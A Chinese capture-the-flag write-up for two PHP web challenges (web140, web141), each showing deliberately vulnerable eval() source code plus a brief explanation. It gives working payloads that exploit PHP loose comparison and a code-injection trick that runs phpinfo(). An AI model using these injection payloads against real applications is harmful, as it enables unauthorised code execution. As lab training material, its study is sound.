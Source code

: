 ## web140~弱比较函数调用

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}
```

`intval($code) == 'ctfshow'` 弱比较，所以只需要将 $code 等于字母或者 0 即可。

```php
f1=md5&f2=phpinfo
f1=md5&f2=md5
f1=sha1&f2=getcwd    
```

## we141~取反-执行php命令

```php
<?php

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

`/^\W+$/` 作用是匹配非数字字母下划线的字符.

php中  `1-phpinfo();` 可以执行phpinfo()命令的。

